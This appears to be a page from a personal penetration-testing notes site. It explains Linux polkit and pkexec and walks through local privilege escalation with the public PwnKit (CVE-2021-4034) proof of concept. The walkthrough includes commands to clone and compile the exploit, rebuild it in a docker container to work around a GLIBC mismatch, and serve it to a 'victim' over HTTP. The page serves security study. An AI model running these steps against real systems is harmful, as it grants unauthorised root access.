

repository: amandaguglieri/hackinglife · page: polkit/index.html · generator: mkdocs

---
title: Polkit
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
# Polkit

PolicyKit (`polkit`) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. To check whether the user software is authorized for this instruction, `polkit` is asked.

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.

```shell-session
pkexec -u <user> <command>
# Example:
# pkexec -u root id
```


##  CVE-2021-4034:  Pwnkit 

[https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)

To exploit this vulnerability, we need to download a PoC ([https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)) and compile it on the target system itself or a copy we have made.

```shell-session
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
```

Move the poc file to the target machine and execute it to escalate privileges.

Sometimes you may run into the following error:

```
./poc: /lib/x86_64-linux-gnu/libc.so.6: version GLIBC_2.34' not found (required by ./poc)
```

That means your compiled **`CVE-2021-4034` (Polkit pkexec)** PoC binary was built on a system with **GLIBC 2.34**, but your target system has **an older GLIBC version** (probably 2.31 or lower, common on Ubuntu 20.04). 

You can run from your kali a docker image to compile again the poc. 

```
docker run -it --rm ubuntu:20.04 bash
apt update && apt install gcc make -y

git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
```

After that, from your kali, copy the generated poc:

```
docker ps
docker cp <container_id>:/poc ./poc
```

Then transfer it to your victim:

```
python3 -m http.server 8000
```
